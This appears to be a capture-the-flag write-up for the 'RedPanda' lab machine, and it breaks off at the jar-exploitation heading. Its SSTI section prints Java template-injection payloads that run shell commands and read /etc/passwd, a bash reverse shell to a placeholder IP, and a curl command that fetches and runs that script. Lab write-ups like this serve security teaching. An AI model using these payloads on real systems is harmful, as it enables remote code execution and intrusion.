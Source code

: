 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/shell.sh ")}
```
**Getting our reverse shell...**
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 
![Screenshot_2022-11-20_15_47_26](https://user-images.githubusercontent.com/99975622/205457657-02e0bff9-1d54-490b-8cb6-d52aba8d8aa1.png)

**Getting user flag....**
<br>Navigate to the home directory and get your user flag!
![Screenshot_2022-11-20_15_49_02](https://user-images.githubusercontent.com/99975622/205457694-762cf23e-949e-4f26-9b6f-624854c03d3e.png)

### Priviledge Escalation...
**Running linpeas...**
![Screenshot_2022-11-20_16_09_37](https://user-images.githubusercontent.com/99975622/205457719-dd406a39-31dc-492b-8e22-9f4f7cce0718.png)
Linpeas didn't really give us any useful information so i moved on to pspy64 to check if there are any activities running in the background....

**Running pspsy64...**
on looking at some output by pspy64, we can see there's a command running as root on a certain jar file...
![Screenshot_2022-11-20_16_16_56](https://user-images.githubusercontent.com/99975622/205457844-617cb601-5b83-444b-9b0e-7a8e14cdff73.png)

Next step, we grab that jar file and have a look at it....

#### Reverse Engineering the jar file so as to have an idea of what's happening

![Screenshot_2022-11-20_16_18_10](https://user-images.githubusercontent.com/99975622/205457896-dea997a6-ba1c-41df-9056-a2f524b68740.png)
On opening the file using jd-gui, we can analyze the source code...

In the main function, we can see there's a file being read....
```
/opt/panda_search/redpanda.log
```
There's also a split function(at the beggining of the code...) that splits code from the log file into new lines when it comes accross the "|" character....
<br>The program then gets the artists name from the metadata of an image from the Artist attribute.....
<br>It then creates the xml file from using the artists name and then uses the "uri" function to update the views onto the xml file.....
<br>We can already see there's a vulnerability in that we can exploit from the xml file...
<br>
<br>**You can check out this vulnerability from snyk...**
https://security.snyk.io/vuln/SNYK-JAVA-ORGJDOM-1311147

### Expoiting the jar file...
